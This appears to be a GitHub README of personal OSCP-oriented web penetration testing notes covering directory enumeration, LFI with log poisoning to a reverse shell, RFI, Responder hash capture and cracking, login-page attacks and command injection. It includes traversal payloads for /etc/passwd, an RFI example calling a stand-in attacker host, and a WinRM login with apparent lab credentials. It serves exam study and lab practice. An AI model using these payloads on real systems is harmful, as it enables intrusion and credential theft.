 # Zero-to-Hero-Pen-Testing-Notes-

1.Always maunally ennumerate and check the source code control+u/ Check `/robots.txt` `/sitemap.xml`\
2.`gobuster dir -u http://$IP:PORT -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -f` -b (for bad servercode) -f (add this flag if gobuster is not returing any results for a long time) \
2.5 `wfuzz -c -z file,/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --sc 200 http://$IP/FUZZ`  and   `dirb http://IP -r -z 10`\ 
2.6. Check wappalayzer to check basic info of the page. \
3. `nikto -h $IP`   , (look out for WebDav, if we have creds) ->  `cadaver $IP`
4. If you do not find any specific directory add the -f flag to go buster and rerun\
5. If you find some directory and stuck  make sure to run gobuster again with the new directory i.e http:\\$IP/newDirectory  
6. Searchsploit technologies for vulnerabiltieis `nmap -p 80,443  --script=*vuln* $IP`
7. Try directory busting while logged in
8. command Injections?  RCE, XSS, SQLi  enter a command and chaining commands such as  “&”, “&&”, “|”, “||”, etc

# Possible web vulnerabilities
## LFI
1. LocalFile Inclusion: We can log poision if linux based or try remote access control if Window
2. Check links ending with `?file=index.php ?book=`  (Possible vulnerabilities in source code)
3. book= `../../../../etc/passwd`   (Figure out if the server is hosting on **Window or Apache )
4. `../../../../var/www/html/index.php`  html to confirm log poisoning 
5. Add  `../ ../../../../` and check if the following following files exists.
6. `/etc/passwd`\ `/var/log/mail/USER`\  `/var/log/apache2/access.log`\  `/proc/self/environ`\  `/tmp/sess_ID`\ `/var/lib/php5/sess_ID`\ `/var/log/auth/log`\  
7. `/windows/system32/drivers/etc/hosts` (for **window host**)\  Go to step 12 
8. Now that we have confirmed LFI vulnerablity, **lets log poision** `../../../../var/log/apache2/access.log` via invalid connection request.
9. Connect to `nc -nv $IP port`.Insert commandline exeuction payload (This depends on what techonology it is using. php ..etc)
10. Check for sucessful log poisioning `../../../../var/log/apache2/access.log&cmd=id`.
11. If you receive command execution, we will insert a reversshell via url encoding. Done. (wrapped and url encode)
12. Create a reverse webshell (Check if RFI) is also possible
13. Upload it 
14. 
15. methods 16-18 are not allowed in the OSCP.
16. Use responder to capture. `sudo python3 Responder.py -I tun0. inject file=//$MyIP/testShare in the url`. Use john the ripper to match hash. 
17. `john -w=/usr/share/wordlists/rockyou.txt hash.txt`
18. login to window .`evil-winrm -i 10.129.147.34 -u Administrator -p badminton`
## RFI
1. Example Vulerable wesbites: `http://exampe.com/index.php?page=http://attackerserver.com/evil.txt`
2. Host a server with python `python3 -m http.server 8080` with reverseshell code.
## Login page
1. Always check for default credentials
2. SQL injection
3. Burpite suite brute force, Hydra (use with caution can be locked out) 
4. Searchsploit Any version info of the login page? ex: pfsense 2.3.2
## Domain/Subdomain 
1. When seeing a contact page, with emails, make note of them, check if they are using some special domain \
2. change /etc/hosts and add the host name
3. gobuster vhost --append-domain -u http://$DomainName -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt \

## XSS

## Getting a stable reverse shell
0. Check what language/ technology it is using ex: php, python, perl and possibly the version, to know which revershell to pick.
1. https://www.revshells.com/
2. Payloads. https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python


## Top Ten OWASP.
1. Broken authentication
2. Sensetive Data exposure
3. Command Injection. Try valid argument followed by `;` `&&` , '|' , '&'and shell commands like `whoami`
4. LFI/RFI 
5. File upload
